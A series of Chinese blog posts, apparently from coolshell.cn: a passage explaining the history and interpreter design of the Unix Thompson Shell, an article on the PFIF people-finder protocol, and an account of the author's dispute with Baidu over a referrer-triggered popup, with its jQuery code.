Unix作为一个举世闻名的操作系统已有40余年的历史，围绕着这个古老的操作系统的发展又衍生出了一系列外围软件生态群，其中一个非常重要的组件就是shell。**它是操作系统最外层的接口，负责直接面向用户交互并提供内核服务，**包括命令行接口(CLI)或图形界面接口(GUI)两种形式。以CLI为例，它提供一套命令规范，是一种解释性语言，将用户输入经过解释器(interpreter)输出使其转化成真正的系统调用，实现人机交互的功能。

和操作系统一样，shell也经历了一个漫长的演变史。如今大部分资料讲述最古老的shell都是从1977年的[Bourne Shell](https://en.wikipedia.org/wiki/Bourne_shell)说起的，它最初移植到[Unix V7](https://en.wikipedia.org/wiki/Version_7_Unix)上，被追认整个shell家族成员的鼻祖，后来的种群都是从其身上分支出来的。


对于1977年之前的历史很多资料大多一笔带过或略过不提。事实上，第一个移植到Unix上的shell却不是[Steve Bourne](https://en.wikipedia.org/wiki/Stephen_Richard_Bourne)写的，早在1975年5月，贝尔实验室就对外发布了第一个广泛传播的Unix版本——[Unix V6](https://en.wikipedia.org/wiki/UNIX_V6)（之前开发的版本只供内部研究之用），其根目录下的/bin/sh是第一个Unix自带的shell，由Ken Thompson写的，因此也被称为[Thompson Shell](https://en.wikipedia.org/wiki/Thompson_shell)。甚至，更早可以追溯到1971年的时候，Thompson Shell就作为一个独立于内核的应用程序而实现了，只不过从1975年正式问世到1977年被取代，短短两年的寿命使得它很少为大多数人所认识。


关于Thompson Shell被取代的原因在后文中会给出说明，这里着重介绍一下该shell本身的一些技术细节。坦白讲，关于Thompson Shell的资料有点稀缺，但至少还能从网上找到[源代码](http://minnie.tuhs.org/Archive/PDP-11/Distributions/research/Dennis_v6/)和[在线文档](http://minnie.tuhs.org/cgi-bin/utree.pl?file=V6/usr/man)。Thompson Shell本身是由一个不足900行代码的解释器和一些外部命令工具组件(utilities)构成，用[K&R C](https://en.wikipedia.org/wiki/K%26R_C#K.26R_C)写成，下面给出各个组件的相关源码和文档链接。

- **解释器sh**：解析各种shell命令，包括内置命令和外部命令；源码sh.c；安装路径/bin/sh；手册[sh(1)](http://minnie.tuhs.org/cgi-bin/utree.pl?file=V6/usr/man/man1/sh.1)。

- **内置命令**手册包括[chdir(1)](http://minnie.tuhs.org/cgi-bin/utree.pl?file=V6/usr/man/man1/chdir.1)，[login(1)](http://minnie.tuhs.org/cgi-bin/utree.pl?file=V6/usr/man/man1/login.1)，[newgrp(1)](http://minnie.tuhs.org/cgi-bin/utree.pl?file=V6/usr/man/man1/newgrp.1)，[shift(1)](http://minnie.tuhs.org/cgi-bin/utree.pl?file=V6/usr/man/man1/shift.1)，[wait(1)](http://minnie.tuhs.org/cgi-bin/utree.pl?file=V6/usr/man/man1/wait.1)。

下面是外部命令：

- **exit命令**：退出一个文件；源码exit.c；安装路径/bin/exit；手册[exit(1)](http://minnie.tuhs.org/cgi-bin/utree.pl?file=V6/usr/man/man1/exit.1)。

- **goto命令**：在一个文件内跳转shell控制流程；源码goto.c；安装路径/bin/goto；手册[goto(1)](http://minnie.tuhs.org/cgi-bin/utree.pl?file=V6/usr/man/man1/goto.1)。

- **if命令**：条件判断表达式，是test命令的前身；源码if.c；安装路径/bin/if), 手册[if(1)](http://minnie.tuhs.org/cgi-bin/utree.pl?file=V6/usr/man/man1/if.1)。

- **glob命令**：扩展命令参数通配符；源码glob.c；安装路径/etc/glob；手册[glob(8)](http://minnie.tuhs.org/cgi-bin/utree.pl?file=V6/usr/man/man8/glob.8)。

#### 命令结构和规范

尽管后来遭“埋汰”，Thompson Shell仍有着不容否认的历史地位，其最大的价值在于**它奠定了shell命令语言结构和规范的基础，而且其解释器具有跨平台的可移植性，并影响到了后来包括Bourne Shell在内的各种脚本语言设计实现。**下面我们就以其中5个特性重温一些大家已经耳熟能详的命令规范，你也可以通过[sh(1)](http://minnie.tuhs.org/cgi-bin/utree.pl?file=V6/usr/man/man1/sh.1)手册查看原始资料。

- **过滤器/管道线(filter/pipeline)。**这绝对是要载入Unix史册的发明，创立者是[Douglas McIlroy](https://en.wikipedia.org/wiki/Douglas_McIlroy)，Thompson Shell引入并实现了这个伟大的概念——一个或多个命令组成一根过滤器的链条，由’|’或’^’符号分隔。除最后一个命令之外，每个命令的标准输出都被作为下一个命令的标准输入。这样每个命令都作为一个独立的进程来运行，并通过管道与邻近的进程相连接。圆括弧内的命令序列整体上可以替代单个命令作为过滤器实现，比如用户可以输入”(A;B)|C”。

- **命令序列和后台进程。**分号’;’指示多个命令序列化执行。’&’符号指示该命令在后台异步执行，使得前面的管道线不必等待其终止，仅仅报告一个进程id，这样用户以后可以通过kill命令与它通信。有益于进程管理。

- **I/O重定向。**它利用了Unix设计上的一个重要特性——**一切皆文件**，用三个符号表示：”重定向输出，如果文件不存在则创建它，如果文件存在则截断它；’>>’追加模式重定向输出，如果文件不存在则创建它，如果文件存在则追加输出至末尾处。

- **通配符扩展(globbing)。**通配符的概念源自于正则表达式，使得解释器智能地处理用户不完全输入，比如记不清文件名、一次性输入多个文件等。’?’匹配任意单一字符；’*’匹配任意字符串（包括空串）；成对'[‘和’]’定义了字符集合一个类，可匹配方括号内任意成员，用’-‘两端可指定一系列连续字符匹配范围。

- **参数传递。**这里主要引入了位置参数和选项参数的概念：’$n’指示shell调用的第n个参数替代；还定义了两个选项参数’-t’和’-c’，前者用于交互，导致shell从标准输入中读入一行作为用户执行的系统命令，后者指示shell将附带的下一个参数作为命令执行（可正确处理换行符），是对’-t’的补充，特别是调用者已经读取了命令其中某些字符的情况下。如果不带选项参数则直接读取文件名

#### 解释器的原理与实现

接下来马上要进入核心部分了，为了搞懂shell解释器原理，我们要对其整个工作流程做个描述（这里给出一份带注解的sh.c源码剖析）。读过《编译原理》的同学知道，解释器的实现跟编译器差不多，只不过省略了生成目标代码这一步，直接将用户输入（shell命令）转化成输出（系统调用）。**软件前端是一致的，包括预处理、词法扫描、语法分析和语义分析，最后还要附加一个进程管理。**当然相较于现代编译器，Thompson Shell解释器在算法和规模上都要简单得多，不过原理上是相通的，何况年代上要比Lex & Yacc还要早。麻雀虽小，五脏俱全，对于初学者来说，从Thompson Shell去入手编译原理或许不失为一种好选择。

#### 预处理(preprocessor)

同C预处理器需要事先将源代码中包含的宏和头文件展开一样，Thompson Shell首先需要处理命令中的**选项参数**和**位置参数**。选项参数有两种’-t’和’-c’，决定了shell从标准输入还是参数缓存中读取字符（见[sh(1)](http://minnie.tuhs.org/cgi-bin/utree.pl?file=V6/usr/man/man1/sh.1)）。此外字符序列中还要处理**反斜杠’\’**，判断是转义字符还是行接续符，前者对下一个字符设置引用标识，表明做普通字符处理，后者将紧邻其后换行符过滤掉。

位置参数是**美元符号’$’**打头的，后带一个数字，如’$n’，预处理器对shell命令参数从头开始计数，返回数字n指定的参数位置。如果遇上double’$$’，则表示当前的进程标识，调用getpid()获取。

注意到预处理器需要一次读取多个字符，这样就会多读一个不必要的字符。对此解释器提供了一种**预读(peek)**方式，即每次从输入流读取一个字符时，放入一个预读缓存里（只有一个int大小的堆栈），也叫**回退(push back)**。此后先从预读缓存中读取，如果缓存被读完，则从输入流中读取。

#### 词法扫描(lexical scanning)

经过预处理后的字符序列将被切割成为一系列**词法记号(token)**，安置在token列表中，扫描器将对以下几类字符做如下处理。

- **空格和tab**：简单过滤。

- **引号**：需要成对出现，字符本身被过滤，一对引号之间所有字符都被设置引用标识，作为一个token。

- **元字符**：如’&’，’|’等，字符本身作为一个单独token。

- **其他字符**：一律填充token，直到碰上以上字符分隔为止。

举一个例子，当我们输入命令”(ls; cat tail) >junk”，那么token列表映像将是这样的：


#### 语法分析(syntax parser)

语法分析就是将token列表中的元素作为**表达式(expression)**并以节点为单位构建语法树，简单命令是一个表达式，而复合命令以及命令序列是多个表达式的组合。Thompson Shell中以简单数组作为语法树的容器，实际上这是结构体的一种变形，只不过每个成员字段大小都一样（都是sizeof int）而已。一个语法树节点最多有6个字段（大小根据类型可变），分别是

- **DTYP（节点类型）**：每个节点都有唯一的类型，又分为四种——TCOM（简单命令）、TPAR（复合命令）、TFIL（过滤器/管道线）、TLST（命令序列）。

- **DLEF（左子树节点）**：相当于链表指针，根据DTYP定义有所不同。如过滤器类型左子树节点为前一个命令的输出重定向文件，右子树节点为后一个命令的输入重定向文件。

- **DRIG（右子树节点）**：同上。

- **DFLG（节点属性）**：这是个标志位(flag)，决定该节点包含命令的属性以及以什么样的状态执行。

- **DSPR（子命令）**：两重含义，对于简单命令，该字段为空；对于复合命令，该字段指向子语法树节点。

- **DCOM（命令字符）**：引用命令字符序列。

语法树节点生成顺序根据token列表中每个元素的**优先级(priority)**而定，首先遍历整个列表，找到优先级最高的token作为根节点，再分别生成左右子树，这是一种最简单的**自顶向下(top-down)**解决方案。各个token优先级视DTYP字段而定

| 优先级 | Token          | DTYP |
| ------ | -------------- | ---- |
| 第一级 | ‘&’  ‘;’  ‘\n’ | TLST |
| 第二级 | ‘\|’  ‘^’      | TFIL |
| 第三级 | ‘(‘  ‘)’       | TPAR |
| 第四级 | 其它字符       | TCOM |

语法树的构建过程中还使用了一种基于**“有限状态机(finite-state machine)”**的动态规划算法，其实现是将整个逻辑流程划分为四个状态：syntax、syn1、syn2、syn3，对应于上面token优先级，程序在每个状态下都生成一个相应类型的节点，同时还生成四种策略，以决议下一步将转移到何种状态（根据优先级搜索对应的token）。这个四种策略分别是

- **生成左子树**：左边token列表递进到下层状态。

- **生成右子树**：右边token列表并回溯到上层状态或递归调用。

- **找不到对应token**：保持原有token列表递进到下层状态。

- **生成节点**：直接返回节点。

当我们遍历完整个token列表后，程序总是能返回最初的调用点，即根节点上，从而生成一棵完整的语法树。这种算法的好处是**程序员不必关注具体实现的每个细枝末节，只要关注相应的状态并制定对应的转移策略即可。**还值得一提的是每个转移策略都是发生在赋值语句或返回语句上，并使用函数实参保存临时变量，这样就避免了调用次数过多导致堆栈溢出。

依旧举两个个例子，比如命令”A & ; B | C”对应的语法树


命令”(A ; B) | C”对应的语法树：


#### 语义分析(Semantic Analyzer)

语法分析仅仅停留在token表达式合法性层面上，它并不知道该表达式是否有意义，比如哪些命令是要后台运行，哪些命令的I/O被重定向到管道线上，通配符该如何扩展等等，这时候要靠语义分析了。这里的“语义”体现在对特殊字符的动态处理以及语法树节点的字段设置，根据**上下文(context)**而定。比如对于元字符’>’，我们要判断输出重定向到哪个文件，是截断还是追加。对于通配符’?’、’*’和'[…]’，我们要决定对哪些字符进行扩展，这些在/etc/glob中专门处理。对于语法树节点，除了自身固有属性之外，还需要继承上层节点的属性，以及下推属性到下层子树节点，下面列了一张表格说明。

| DTYP | DLEF/DRIG                                                | DFLG                                                         | DSPR   |
| ---- | -------------------------------------------------------- | ------------------------------------------------------------ | ------ |
| TLST | 可以为空，也可以是其它节点，类型可以是TLST/TFIL/TCOM     | 自身属性为0；如果带’&’，则下推属性FINT\|FAND\|FPRS到左右子树（忽略信号、后台异步，打印pid） | 空     |
| TFIL | 必须同时存在、，类型只能是TCOM或TPAR                     | 自身属性继承自上层TLST；下推FPIN到左子树节点；下推FPOU到右子树节点。 | 空     |
| TPAR | 空                                                       | 继承上层的TLST和TFIL；如果是追加模式重定向输出，加上FCAT；如果是复合命令中最后一个子命令，加上FPAR， 将不会fork子进程。 | 子命令 |
| TCOM | 左子树节点为输入重定向文件，右子树为节点输出重定向文件。 | 空                                                           |        |

#### 执行命令(Executor)

当前面一系列步骤之后，如果错误计数为0，则解释器从语法树的根节点开始，**深度优先遍历**所有节点，并根据前面语法和语义分析得到的类型和属性，一一执行所包含的命令，以生成最后的系统调用。

对于**命令序列(TLST)节点**，从左至右顺序执行子树节点命令。

对于**过滤器(TFIL)节点**，创建管道文件句柄，作为左右子树的重定向文件。

对于**简单命令(TCOM)和复合命令(TPAR)节点**，首先筛选出系统内置命令(built-in)，对于剩下的外部命令则fork一个子进程执行它。如果是复合命令中最后一个子命令，那么仍在原来的进程上执行而不必创建新进程。可执行文件路径按先后顺序搜索：①本地路径；②/bin；③/usr/bin。

**多进程环境下，特别要注意文件句柄管理**。命令间共享标准输入输出设备之外，还会重定向到管道线，而父进程在fork之后子进程会获取一份文件句柄拷贝，所以**父进程必须在fork之后立即关闭闲置的管道线句柄（如果有的话）以免造成资源泄漏，子进程也将在重定向之后关闭管道线句柄。**

对于**后台命令**需要打印pid，但不需要响应中断信号，父进程也不必等待子进程终止。其余进程命令执行中可捕获中断信号，并转入相应的处理函数。

解释器用内置的errno全局变量保存进程终止状态，并生成**终止报告(termination report)**，系统调用wait()用于返回终止进程的pid并输出报告消息索引。

#### 孰优孰劣

尽管Thompson Shell是一款优秀的命令解释器，还产生了多项历史创举，但遗憾的是依然得不到命运女神的垂青，这要归咎于其自身的缺陷——**功能单一、命令分散、控制流过于简单，尚无法用来编写脚本(script)**。随着Unix日益壮大，它已经无法应付趋于繁杂的编程项目了。那时还出现了一个叫[John Mashey](https://en.wikipedia.org/wiki/John_Mashey)的人写的[PWB Shell](https://en.wikipedia.org/wiki/PWB_shell)（又叫做Mashey Shell），基于Thompson Shell做了些改进，扩展了命令集，增加了shell变量，还增加了if-then-else-endif，for，while等控制逻辑。不幸的是它比Thompson Shell更短命，因为1977年它遇上了一个强劲的对手。

没错，那就是Bourne Shell，它的主要优点是真正实现了结构化脚本编程，比之前的shell实现得都要好，更要命的是它与前两个shell都不兼容，于是一场标准化的论战开始了。在[David G. Korn](https://en.wikipedia.org/wiki/David_Korn_(computer_scientist))（[ksh](https://en.wikipedia.org/wiki/Korn_shell)作者）写的[“ksh – An Extensible High Level Language”](http://www.in-ulm.de/~mascheck/bourne/korn.html)一文中提及，Steve Bourne和John Mashey在三次连续的Unix用户组集会上争论他们各自的理由。在这些集会之间，各自增进他们的shell来拥有对方的功能。还设立了一个委员会来选择标准shell，最终还是选择了Bourne shell作为标准。

于是从Unix V7开始就有了前面所说的”Bourne Shell Family”。然而历史上没有完美的技术，随着八、九十年代操作系统迅猛发展，针对Bourne Shell的诟病也越来越多了。在解释器本身实现上，我看到网上一个对其评价是[“universally considered to be one of the most horrible C code ever written”](http://lwn.net/Articles/471015/)，至于原因去看一下mac.h就知道了，包括基本运算符、关键字在内的大量宏定义使得整个代码看上去简直不是C写的，也许Bourne是想把解释器打造成自己独特的风格吧，也难怪后来的bash以**“born again”**命名就是对其祖先的戏谑性调侃。另外[内存管理](http://www.in-ulm.de/~mascheck/bourne/segv.html)上的一些毛病带来平台可移植性问题，至于其中的技术细节有点高级，超出本文范畴。

#### Thompson Again Shell?

虽然历史没有给Thompson Shell一个机会，但它并非就此同Unix V6那样一同沦为开源博物馆上的古老“化石”。作为出自顶级黑客之手的作品，作为伴随Unix那样伟大操作系统一同曾经流行计算机的产物，至今仍受国内外程序员的缅怀，或将其改写，或为其作注。比如国外一个站点[v6shell.org](http://v6shell.org/)上就实现了一个免费开源的可移植性shell，它兼容并扩充原来的Thompson Shell并且可用来做脚本编程。再比如中国程序员[寒蝉退士](http://blog.chinaunix.net/uid-20106293-id-142129.html)在其个人博客上发布了一个注解版，并对原版做了一些改写，主要是将**K&R C**转为**ANSI C**，并且符合**POSIX规范**，使原本晦涩难懂的源码变得清晰易读起来。正是因为接触到他的版本激起了我对老Unix的考古兴趣，才有了这篇“考古笔记”。我在想不知今后会不会像bash那样，出一个tash来呢？

#### 一些感想

本来全文应该就此结束了，但此时此刻不禁想多说几句。这篇笔记当初并非有意而为之，在hacking源码的过程中感想积累多了也就逐渐成章了。看代码、作注解、查资料、写此文，前后历经四个多礼拜，是在繁杂的工作中“挤乳沟”挤出来的零散时间片拼凑起来的，虽然文字不长但也算耗费了一番心血，酸甜苦辣心中自明，体会到踏上社会之后潜下心做研究之艰难。如今面对这样一份不到900行写成的，没有一行多余的代码，**简洁(clarity)、干净(clean)、快速(fast)，**这就是Pure C的魅力，我深为这种厚重的编程功力所折服，正所谓**“大道至简”**吧。虽然要完全弄懂它需要很多时间，但我相信这种代价却是值得的。

最后再八卦一下，2011年Dennis Ritchie去世了，有人生前问过他“学C需要多久才能成为熟练开发者并写出重要产品代码？”，Ritchie回答“我不知道，我从没去学过C。”[(I don’t know. I never had to learn C.)](http://www.cs.columbia.edu/~aho/Talks/12-09-07_DMR.pdf)其实这里已经给出了答案——**那就是没有比去阅读Unix源代码更好的选择了，某种意义上C语言就是为Unix而生的。**


#### 参考资料

[The Unix Heritage Society](http://www.tuhs.org/)：Unix社区遗产，上面有v6和v7以及其它一些衍生版本的操作系统源代码。

[The Traditional Bourne Shell Family](http://www.in-ulm.de/~mascheck/bourne/)：Bourne Shell家族简史。

[v6shell](http://v6shell.org/)：osh，一个基于Thompson Shell的开源可移植性old shell。

[寒蝉退士的博客](http://blog.chinaunix.net/uid-20106293-id-142129.html)：Thompson Shell的一个注解版。

[Evolution of shells in Linux](https://www.ibm.com/developerworks/linux/library/l-linux-shells/index.html?ca=drs-)：简述Linux Shell演变史。

附录一个中文注释的 [shell源码](https://coolshell.cn/wp-content/uploads/2013/04/shell源码.zip)

（全文完）

# PFIF网上寻人协议

#####  [2013年04月22日 ](https://coolshell.cn/articles/9508.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [24 条评论](https://coolshell.cn/articles/9508.html#comments) 22,731 人阅读

本文的主要内容来自Wikipedia([http://en.wikipedia.org/wiki/People_Finder_Interchange_Format](https://en.wikipedia.org/wiki/People_Finder_Interchange_Format))

PFIF全称People Finder Interchange Format，是一个应用广泛的数据开源的标准协议，这个协议主要是设计用来在不同的政府、救援组织、或是其它的一些灾难中生存者和其亲人联系的网站间进行数据交换的一种协议。


这个协议基于XML，信息中包括人的身份标识，还有人目前的位置和状态等一些信息。PFIF可以通过Atom和RSS feed出去。PFIF可以允许不同的寻人站点进行数据交换和合并。每一条记录都有一个唯一的标识，这个标识说明了这是由哪个域名创建的。这样，当A站点获得B点的某个人的数据时，在A站点可以对这个人的增加的信息可以转到其它站点上再被增加相关的信息，因为有一个唯一的ID，所以信息可以在不同的站点上被附加。

从wikipedia上看，说起PFIF这个事，得回到2001年的911事件，那时人们一共使用了超过25个不同的在线论坛和网上寻人站来查找相关的亲人和朋友（注：寻人网站英文叫：Survivor Registry，生还者登记网站）。其中一个最大的网站是由伯克利大学的学生Ka-Ping Yee 和 Miriam Walker 开发运行在Millennium计算集群上的safe.millennium.berkeley.edu网站。那时，为了减少各种网站间的混乱，伯克利的寻人网站开始从其它几个比较大的寻人站点收集相关的数据，并人肉整合到一起。


2005年，在[卡特里娜飓风](https://en.wikipedia.org/wiki/Hurricane_Katrina) 灾难的时候，有数据百万人迁移。于是相关的寻人网站又出现了，而且比911的还要多。于是有很多的志愿者开发了一个叫 [Katrina PeopleFinder Project（卡特里娜寻人项目）](https://en.wikipedia.org/wiki/Katrina_PeopleFinder_Project) 他们人肉地收集不同站点的数据，并统一格式放到一个由Salesfore.com提供一个数据库中。这个项目的组织者David Geilhufe 呼吁一个技术标准以便这些寻人网站间的数据可以自动地整合共享在一起。于是之前伯克利的那个 [Ka-Ping Yee](http://zesty.ca/) 开始和志愿者 Kieran Lal，Jonathan Plax 和 [CiviCRM](https://en.wikipedia.org/wiki/CiviCRM) 团队一同工作，于是开始了草拟了第一版的PFIF协议，其于2005年9月4日发布，1.1版于第二天发布，其中修改了一些错误。随后，Salesfore.com的数据库开始支持这一标准，然后，Yahoo!和Google的寻人网站也加入这一协议。

接下来， [2010年的海地地震](https://en.wikipedia.org/wiki/2010_Haiti_earthquake) 时，Google发布了自己的 [Google Person Finder](https://en.wikipedia.org/wiki/Google_Person_Finder)，其基于PFIF协议和CNN，纽约时报，以及美国国家医学图书馆和其它的一些寻人网站进行数据交换。然而，PFIF1.1是基于美国的社会标准搞的，并不适用于海地。于是2010年1月26日，PFIF1.2发布，其增加了几个字段用于标记生还者的国家和国际区号，还有性别，年纪，生日，状态，还有相同人的关联。

PFIF 1.3 于2011年3月发布，其主要解决了个人隐私问题，其加入了一个字段指明该信息的一个有效时间，过期的数据会被删除。PFIF1.3同时移除了英式的first-name和last-name，取而代之的是full-name。

PFIF 1.4 于2012年5月发布，其加入了一个字段用于链接这个人在互联网上的个人资源链接，这样可以用于合并相同的人（比如：指向同一个微博网址），还支持了多个照片。

**PFIF1.4的Spec链接：http://zesty.ca/pfif/1.4/**

如下的网站有软件实现了PFIF：

- [Google Person Finder](https://en.wikipedia.org/wiki/Google_Person_Finder)
- [Sahana Eden](https://en.wikipedia.org/wiki/Sahana_FOSS_Disaster_Management_System)
- [National Library of Medicine People Locator](http://pl.nlm.nih.gov/index.php)
- [Ushahidi](https://en.wikipedia.org/wiki/Ushahidi#Ushahidi)
- [PFIF .NET Library](https://code.google.com/p/pfifnet/)
- [XML::PFIF Perl module](http://erislabs.net/ianb/projects/pfif/)

本次四川地震，谷歌率先发布了他人寻人网站：https://google.org/personfinder/2013-sichuan-earthquake。接下来，国内的百度，360，搜索，一淘，CSDN，高德……都发布了自己的寻人网站，微博上，大家都在说这些企业不应该搞这么多这样的网站，这样只会造成混乱。而且大家都在呼吁大家一起运作一个网站，共享数据，共享信息。晚上，我在微博上看到了这个PFIF协议，于是写下这篇文章。

关于Google 的寻人的数据可以通过Google PersonFinder API 下载和上传，这里是其API页面：

**[http://code.google.com/p/googlepersonfinder/wiki/DataAPI](https://code.google.com/p/googlepersonfinder/wiki/DataAPI)**

# “作环保的程序员，从不用百度开始”

#####  [2013年03月23日 ](https://coolshell.cn/articles/9308.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [780 条评论](https://coolshell.cn/articles/9308.html#comments) 588,814 人阅读

酷壳对来自百度搜索引擎的访问会弹窗，但是我的这个行为发酵出了一些事情，这里把这个事情说明如下，我会更新相关的东西。内行看门道，外行看热闹。

#### 事由

**2月6日** 看到[梁斌同学的微博](http://weibo.com/1497035431/zi69DBK3b)（起因可能是因为梁斌同学在微博上对帮助百度的一些工程师们说话导致他的“[微博寻人](http://xunren.thuir.org/)”全站被百度屏蔽）


我看到后，觉得梁斌同学有点太看重被百度收录了，没有站长应该有的气质，所以，我[回了一个微博](http://weibo.com/1401880315/zibYUvZYd)——

> “我的酷壳倒反而因为被百度收录而感到掉价！”

**2月6日当天**，我给coolshell做了个弹窗，并发布微博—— （该微博目前已被新浪管理员删除，后面有说明）


> “搞定收工！从百度访问过来的访问弹出对话框。（CoolShell上的网页有缓存，要过些时间才有效）”
>
> 

**2月21日**：百度的法律顾问发来邮件。

> From: xxxxxx@baidu.com
> To: haoel@hotmail.com
> CC: xxxxxx@baidu.com
> Subject: 答复: 网站coolshell.cn弹窗事宜
> Date: Thu, 21 Feb 2013 07:05:09 +0000
>
> 陈浩，您好！
>
> 我是百度法务部法律顾问，就您的网站上有贬损百度商标的弹窗，以及通过微博等途径予以传播事宜，我们希望您及时终止。
>
> 如您不希望百度搜索收录您的网页，您可以通过Robots 协议予以规定。关于如何禁止百度Robots收录您的网站，如您需要技术方面的支持，我可以协助联系百度的工程师与您沟通。
>
> 如有任何问题，请随时联系。
>
> 谢谢！
>
> 段志勇

我当天回复邮件到——

> 『我是酷壳的法律顾问，请百度停止收录酷壳的网页，以及在所有百度产品线里删除酷壳的文章，尤其是百度文库里我所有的文章和PPT，你们已经违反了中华人民共和国版权著作法，酷壳将保留行使法律的权力』

**3月2日**：[新浪微博举报大厅](http://service.account.weibo.com/show?rid=K1CaJ6QFe6K4d)。（把我2月6日弹窗的微博给删除了，注意，其中没有我自辩的过程，还有其中荒唐的逻辑）

http://service.account.weibo.com/show?rid=K1CaJ6QFe6K4d

我问新浪为什么没有我自辩的过程，新浪微博客服回服如下：

>  尊敬的新浪微博用户： 您好！关于您反馈的被举报问题，经核实此判决符合社区公约规定判定无误，感谢您的支持，祝您生活愉快~~

我没有多理会，留下一条“[多谢新浪和百度的自黑](http://weibo.com/1401880315/zlCT8v4si)”的微博我也没管这事了。

**3月22日**：收到了来自百度律师代理的邮件，如下：

> From: xxxxx@teehowe.com
> To: haoel@hotmail.com
> Subject: 关于贵方酷壳网弹窗构成对百度公司的不正当竞争事宜
> Date: Fri, 22 Mar 2013 10:07:10 +0800
>
> 陈先生，您好！
>
> 我们，北京天昊联合知识产权代理有限公司，受百度在线网络技术（北京）有限公司（以下简称“百度公司”）委托就题述事宜特致函贵方（委托书请见附件）。
>
> 百度公司近日发现：用户在使用谷歌、360等浏览器通过百度搜索访问您方酷壳网（https://coolshell.cn/）时，会弹窗一个小窗，上面将百度LOGO打叉，并使用“DO EVIL”、“做环保的程序员，从不用百度开始！”等标语，详细截图后附。我们认为：您方弹窗所含图像及语言描述缺乏事实基础，带有较强的感情色彩，足以误导互联网用户对百度公司产生不合理的怀疑乃至负面评价，从而对百度公司的商业信誉和品牌形象带来一定程度的贬损。根据《反不正当竞争法》第2、14、20条之规定，您方行为已构成对百度公司的不正当竞争。
>
> 我们希望您方在收到此函后，清除所有相关侵权程序，立即停止对百度公司的所有侵权行为。我所当事人要求：贵方最迟于**2013年3月25日**前向以下通信地址做出实质回应：
>
> 联系人：郑洪
> 地址：北京市东城区建国门内大街28号民生金融中心D座10层
> 邮编：100005
> 电话：010-8529 5526
> 传真：010-8529 5528
>
> 此信函不影响我方当事人依法所享有的其他任何权利或法律救济途径。我们希望此纠纷能尽快解决，以维护互联网市场的健康有序发展。
>
> 期待你方及时回复。如有任何问题，请随时与我们联系！
>
> 郑洪

弹窗的抓图附件我就不列了，其中有一个委托书附件如下：


#### 几个观点

**1）我非常不喜欢百度公司的非常浓重的商业化**

我在《**[做个环保主义的程序员](https://coolshell.cn/articles/7186.html)**》一文中说过一些百度的问题，如：

- **搜索结果很差**。一些非技术的东西都搜不出来。技术文章就更不要说了。再比如百度抓取酷壳的网页，一方面是不及时，另一方面是有选择地抓，很多网页并没有抓取到源文，而是抓取到那些转载过去没有注明出处的网站，像《**[做个环保主义的程序员](https://coolshell.cn/articles/7186.html)**》文章发布一年多了，过去的一年在百度里就查不到（这几天又能查到了）。（**我很想了解百度的一些抓取网页的算法和搜索排名的算法，感觉相当诡异**）

- **有很多虚假广告**。**我觉得一家公司商业化并没有什么问题，但是这种商业化不应建立在牺牲用户利益的基础上的，这是最最基本的底线**。我觉得百度的商业上在这方面突破了太多的底线。

**2）百度应该可以做得更好**

@[陈晓鸣在百度](http://weibo.com/acumon)在私下给我介绍了一些百度的广告方面的技术细节，说是以前的那个竞价排名不存在了。但是难免有一些垃圾和造假。就像淘宝一样也有假货和诈骗。是的，**这中国目前这个大环境下，要有一个干净的平台的确不容易。但是我希望百度能像淘宝一样，在业务上做一些打击虚假信息的活动——建立举报制，曝光所有的虚假和欺诈信息，并有一些惩罚措施。可惜百度做得还很不够主动**。（**与其花时间在我这里，不如花时间做好你自己的事**）

**灰尘总是会有的，重点不在于灰尘和垃圾总是会有，重点在于想不想打扫。想不想打扫这是态度问题**。

**3）看不起百度并不是看不起百度的技术人员**

**我是比较敬重百度的技术人员的。我还是能够“一分为二的看问题”**。比如：deep learning专家余凯、主导凤巢设计的戴文渊，自然语言处理顶级会议的首任华人主席王海峰，架构专家，移动云技术负责人林仕鼎等等。都是值得我学习的很不错的技术牛人。

我一向是站在技术人员这边的。这点，在这个事件中也不会改变。**我还是会推荐一些刚毕业的实在找不到更好工作的学生去百度**。正如我在《[来信，创业，移动互联网](https://coolshell.cn/articles/5815.html)》一文中说的那样。入世和出世，取其精华去其糟粕。

4）**关于弹窗这个事**

关于弹窗这个事，**我非常高兴酷壳成为了百度的竞争对手**。我会接受网友的意见，**我会将把弹窗这个事变成不弹窗，直接嵌在酷壳的每一篇文章里**。酷壳上基本坚持不投放任何广告，这回一定要做个公益广告。

关于法律上的一些事情，我无所谓，**随时欢迎百度来起诉我，不来起诉就是怂包**。以前当过原告起诉过清华大学出版社，今天当个被告，这样我的人生经历就完整了。大家知道，人生经历对我很重要。

**5）感动和回报**

我把百度委托律师给我的邮件放到了我的微博里（[点击这里](http://weibo.com/1401880315/zoF7ucEeR)），很多朋友说要捐钱给我打官司。这点到是不需要了。但是我真的很感动。所以——

**我觉得我应该更多的珍惜大家对我的支持。如果你们在访问一些网站有什么困难的话，可以私下联系我，我愿意为你们提供相关的技术支持。这个事只能在私下做，你们懂的**。

**当然，最好方式还是自建代理，如果你想DIY，[你可以看看这篇文章](https://github.com/haoel/haoel.github.io)。**

#### 附录：弹窗代码

大家问我那个弹窗是怎么做的，很简单的，可以看看coolshell.cn的源代码。就是从referrer中匹配baidu。我用了jquery的一个插件：[bPopup](http://dinbror.dk/bpopup/)，关于那个no baidu插图来自：[豆瓣的拒绝百度的兴趣小组](http://www.douban.com/online/10132155/)。

源码如下：**[@Ninja_Lu](http://weibo.com/n/Ninja_Lu) 做了一个github的：https://github.com/lurongkai/anti-baidu**

```
<script src="http://ajax.googleapis.com/ajax/libs/jquery/1.9.0/jquery.min.js"></script>
<script src="https://coolshell.cn/wp-content/themes/inove/js/jquery.bpopup-0.8.0.min.js"></script>

<script type="text/javascript">
;(function($) {
    $(function() {
        var url=document.referrer;
        if ( url && url.search("http://")>-1) {
            var refurl =  url.match(/:\/\/(.[^/]+)/)[1];
            if(refurl.indexOf("baidu.com")>-1){
                $('#nobaidu_dlg').bPopup();
            }
        }
    });

})(jQuery);
</script>

<div id="nobaidu_dlg" style="background-color:#fff; border-radius:15px;color:#000;display:none;padding:20px;min-width:450px;min-height:180px;">
    
     <p style="margin-left:200px;margin-top: 20px; line-height: 30px;">
     检测到你还在使用百度这个搜索引擎，<br/>
     做为一个程序员，这是一种自暴自弃！<br/>
     <br/>
     </p>
     <p align="center" style="margin-top:20px;">
     <b><a href="https://coolshell.cn/articles/7186.html">作环保的程序员，从不用百度开始！</a></b>
     </p>
</div>
```

P.S. robots.txt我已经加上了。

（全文完，谢谢大家的支持）

# 《REWORK》摘录及感想

